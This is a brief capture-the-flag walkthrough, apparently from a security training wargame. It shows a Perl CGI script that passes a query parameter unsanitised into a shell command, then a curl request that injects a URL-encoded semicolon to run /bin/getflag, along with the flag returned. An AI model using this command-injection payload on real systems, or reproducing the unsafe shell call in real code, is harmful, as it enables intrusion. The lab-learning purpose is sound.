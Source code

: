 ##### 1 - Analyze file
``cat level04.pl``
>#!/usr/bin/perl
>\#localhost:4747
>use CGI qw{param};
>print "Content-type: text/html\n\n";
>sub x {
>  $y = $_[0];
>  print `echo $y 2>&1`;
>}
>x(param("x"));

----

##### 2 - Getting the flag

%3B is the URL encoded version of ;, which is a command separator in bash.
So we can execute multiple commands in the same line.

``curl "http://localhost:4747?x=%3B/bin/getflag"``

>Check flag.Here is your token : **ne2searoevaevoem4ov4ar8ap**
